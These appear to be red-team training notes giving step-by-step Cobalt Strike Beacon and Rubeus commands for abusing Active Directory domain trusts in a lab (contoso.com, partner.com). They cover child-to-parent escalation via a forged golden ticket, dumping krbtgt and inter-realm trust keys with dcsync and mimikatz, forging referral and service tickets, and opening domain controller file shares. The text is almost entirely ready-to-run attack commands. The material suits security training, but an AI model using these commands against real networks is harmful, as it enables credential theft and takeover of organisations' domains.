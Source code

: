 
### Child to Parent Abuse

- Enumerate the type of trust in place.
    
    BeaconTypeCopy
    
    `ldapsearch (objectClass=trustedDomain) --attributes trustPartner,trustDirection,trustAttributes,flatName`
    
-  Obtain the AES256 hash for the child domain's krbtgt account.
    
    1. dcsync dublin.contoso.com DUBLIN\krbtgt
-  Obtain the domain SID for _dublin.contoso.com_.
    
    1. ldapsearch (objectClass=domain) --attributes objectSid
-  Obtain the domain SID for _contoso.com_.
    
    1. ldapsearch (objectClass=domain) --attributes objectSid --hostname lon-dc-1.contoso.com --dn DC=contoso,DC=com
-  On the Attacker Desktop, forge a golden ticket and output to a file.
    
    TerminalTypeCopy
    
    `C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe golden /user:Administrator /domain:dublin.contoso.com /sid:[DUBLIN SID] /sids:[CONTOSO EA GROUP SID] /aes256:[DUBLIN KRBTGT HASH] /outfile:C:\Users\Attacker\Desktop\golden`
    
-  Inject the ticket into Beacon.
    
    BeaconTypeCopy
    
    `kerberos_ticket_use C:\Users\Attacker\Desktop\[TICKET]`
    
-  Verify the ticket is in the session.
    
    1.  run klist
-  Access the parent domain's domain controller.
    
    1. ls \\lon-dc-1\c$

### Inbound Trust 
- Enumerate the one-way trust.
    
    BeaconTypeCopy
    
    `ldapsearch (objectClass=trustedDomain) --attributes trustDirection,trustPartner,trustAttributes,flatname`
    
-  Enumerate the Foreign Security Principals Container.
    
    BeaconTypeCopy
    
    `ldapsearch (objectClass=foreignSecurityPrincipal) --attributes cn,memberOf --hostname partner.com --dn DC=partner,DC=com`
    
-  Identify an interesting SID.
    
    1. ldapsearch (objectSid=[SID])
-  DCSync the shared inter-realm key.
    
    1. make_token CONTOSO\dyork Passw0rd!
    2. dcsync contoso.com CONTOSO\PARTNER$
    3. rev2self
-  On the Attacker Desktop, forge a referral ticket.
    
    TerminalTypeCopy
    
    `C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe silver /user:pchilds /domain:CONTOSO.COM /sid:S-1-5-21-3926355307-1661546229-813047887 /id:1105 /groups:513,1106,6102 /service:krbtgt/partner.com /rc4:[NTLM HASH] /nowrap`
    
-  Use the forged ticket to request service tickets for the trusting domain.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgs /service:cifs/par-jmp-1.partner.com /dc:par-dc-1.partner.com /ticket:[TICKET] /nowrap`
    
-  Inject the service ticket into the current logon session.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:[TICKET]`
    
-  Verify the ticket was injected.
    
    1. run klist
-  Access the service in the trusting domain.
    
    1. ls \\par-jmp-1.partner.com\c$


### Outbound Trust
1.  Enumerate the one-way trust.
    
    BeaconTypeCopy
    
    `ldapsearch (objectClass=trustedDomain) --attributes trustDirection,trustPartner,trustAttributes,flatName`
    
2.  On the medium integrity Beacon, get the GUID of the TDO.
    
    BeaconTypeCopy
    
    `ldapsearch (objectClass=trustedDomain) --attributes name,objectGUID`
    
3.  Obtain the shared inter-realm key from the TDO.
    
    1. mimikatz lsadump::dcsync /domain:partner.com /guid:{[GUID]}
4.  Request a TGT for the trust account using the shared secret.
    
    BeaconTypeCopy
    
    `execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe asktgt /user:PARTNER$ /domain:CONTOSO.COM /dc:lon-dc-1.contoso.com /rc4:[RC4 HASH] /nowrap`
    
5.  On the high integrity Beacon, inject the TGT into a sacrifial logon session.
    
    1. make_token CONTOSO\PARTNER$ FakePass
    2. execute-assembly C:\Tools\Rubeus\Rubeus\bin\Release\Rubeus.exe ptt /ticket:[TICKET]
6.  Verify the ticket has been injected.
    
    1. run klist
7.  Enumerate the trusted domain.
    
    BeaconTypeCopy
    
    `ldapsearch (objectClass=domain) --dn DC=contoso,DC=com --attributes name,objectSid --hostname contoso.com`